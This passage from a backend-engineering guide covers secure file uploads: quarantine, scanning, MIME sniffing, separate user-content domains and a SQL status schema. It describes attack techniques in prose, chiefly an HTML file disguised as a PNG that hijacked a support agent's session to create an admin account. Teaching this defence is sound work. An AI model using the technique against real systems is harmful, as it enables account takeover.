CREATE TYPE media_status AS ENUM ('pending','uploaded','scanning','clean','infected','rejected','deleted');

CREATE TABLE media (
  id             uuid PRIMARY KEY DEFAULT gen_random_uuid(),
  user_id        uuid NOT NULL REFERENCES users(id) ON DELETE CASCADE,
  storage_key    text NOT NULL UNIQUE,               -- server-generated; never the user's filename
  display_name   text NOT NULL,                      -- sanitised original, for the UI only
  declared_mime  text,                               -- what the client claimed, kept for forensics
  mime           text,                               -- what the bytes actually were
  bytes          bigint NOT NULL CHECK (bytes >= 0 AND bytes <= 8388608),
  status         media_status NOT NULL DEFAULT 'pending',
  scanned_at     timestamptz,
  created_at     timestamptz NOT NULL DEFAULT now()
);

-- Only clean rows may ever be served; make the common lookup fast and the invariant visible.
CREATE INDEX media_user_clean_idx ON media (user_id, created_at DESC) WHERE status = 'clean';
CREATE INDEX media_scan_backlog_idx ON media (created_at) WHERE status IN ('uploaded','scanning');
ALTER TABLE media ADD CONSTRAINT clean_has_mime CHECK (status <> 'clean' OR mime IS NOT NULL);

-- Daily quota check in one statement.
SELECT coalesce(sum(bytes), 0) FROM media
WHERE user_id = $1 AND created_at > now() - interval '1 day' AND status <> 'rejected';
```

#### Production scenario

A marketplace takes 120,000 uploads a day, averaging 2.4 MB. The API never buffers: the client gets a presigned POST to the quarantine bucket with a `content-length-range` of 1 byte to 8 MB and a 5-minute expiry, then calls `POST /media/:id/complete`. Four scan workers with a ClamAV sidecar handle the queue; p95 quarantine-to-clean is 3.1 seconds, and the UI shows a spinner on the media tile until then. Roughly 40 files a week are flagged infected, almost all of them innocent users re-uploading something they downloaded. Two or three a month are genuine probes: SVGs with `<script>`, HTML files renamed to `.png`, and the occasional 10 GB decompression bomb, which the `content-length-range` kills at the S3 edge for zero cost.

#### Failure scenario

A support tool let staff view customer-uploaded "proof of delivery" images inline, from `https://admin.example.com/uploads/{key}`, serving the browser-supplied content type. An attacker uploaded an HTML file named `proof.png` with `Content-Type: text/html`. A support agent opened the ticket; the file rendered on the admin origin; the script called `POST /admin/users` with the agent's session cookie and created a new admin account. It was noticed six days later, in the audit log, by an engineer who wondered who `svc-backup2` was.

Fixes shipped that week: `Content-Disposition: attachment` on every media response, content type forced from sniffed bytes, uploads moved to a separate registrable domain, `nosniff` everywhere, CSP `sandbox` on the media domain, and an audit alert on any `role_granted` event that was not initiated from the admin console's own flow.

#### Edge cases & failure modes

- The scan worker is down; the backlog grows and users see "processing" forever. Alert on `media_scan_backlog_idx` count and on the oldest `uploaded` row's age.
- The quarantine bucket has no lifecycle rule, so rejected files accumulate forever and cost money.
- A retry after a crashed worker double-processes; make the state transition conditional (`UPDATE ... WHERE status = 'uploaded'`).
- Presigned URLs pasted into a chat, valid for an hour, granting anyone the file. Keep them short and log issuance.
- The CDN caches a file that was later deleted for being infected; purge on state change.
- `Content-Disposition` filename with a quote or newline breaking the header; use the `filename*=UTF-8''` form with percent-encoding.
- EXIF stripped from the main image but not from the generated thumbnail, if a different code path builds it.
- An SVG that passes sniffing because you allow `image/svg+xml`; it is XML, and XML has external entities too.
- Users uploading someone else's media id to attach to *their* order; ownership check on attach, not just on upload.
- A `multipart/form-data` request with 10,000 fields, exhausting the parser; set `limits.fields` and `limits.parts`.

#### How a Senior Backend Engineer thinks about this

They treat uploaded bytes as hostile until a pipeline they control has rewritten them, and they make "serve" a privilege that only the `clean` state has. They push size limits as far toward the edge as possible, because the cheapest rejection is the one that never allocates memory in Node. They insist on a separate domain for user content, because it is the one control that keeps working when a header is missed. And they design the state machine first, because an asynchronous scanner without explicit states becomes "we serve it and hope the worker was fast".

They also ask the product question: does this feature need arbitrary files at all? A product-import feature that accepts CSV with a strict schema is a fraction of the attack surface of one that accepts ZIP archives of images and spreadsheets.

#### Common mistakes

- Trusting `file.mimetype` from multer (it is the client's claim, copied).
- Allow-listing extensions instead of checking bytes.
- Serving uploads from the app's own domain.
- `memoryStorage()` in production.
- Storing the user's filename as the storage key.
- Scanning synchronously and timing out the request under load.
- No lifecycle rule on the quarantine bucket.
- Forgetting that thumbnails and previews are a second serving path with its own headers.

#### Interview questions

1. *A user uploads `avatar.png` with `Content-Type: image/png`. How much of that do you trust?* Expected: none; sniff magic bytes, then re-encode.
2. *Explain stored XSS through file upload and give two independent fixes.* Expected: HTML served from your origin with the session cookie; `Content-Disposition: attachment` plus a separate registrable domain.
3. *What is an image decompression bomb and how do you stop it?* Expected: small compressed, huge decoded; pixel limits, dimension checks, memory-capped worker.
4. *Design the state machine for uploads with asynchronous virus scanning.* Expected: quarantine, states, only `clean` is servable, conditional transitions, backlog alerting.
5. *Where do you enforce size limits and why more than one place?* Expected: proxy, body parser, storage policy, business quota; each layer covers a different bypass.
6. *What does re-encoding an image actually remove?* Expected: appended payloads, polyglot structure, EXIF/GPS, malformed chunks targeting decoders.

#### Practical exercise

Build an upload endpoint following the pipeline: presigned POST with `content-length-range`, a `media` table with the status enum above, a BullMQ scan worker that checks magic bytes and re-encodes images with `sharp`, and a `GET /media/:id` that returns 409 unless the row is `clean`.

Acceptance criteria: an HTML file renamed `.png` is rejected with 415 and the row lands in `rejected`; a JPEG with GPS EXIF comes back with no EXIF; a 6,000 x 6,000 single-colour PNG is rejected without the worker exceeding its memory limit; a 20 MB upload is rejected by S3 without touching your API; requesting a media id belonging to another user returns 404; two concurrent scan jobs for the same id result in exactly one `clean` transition.
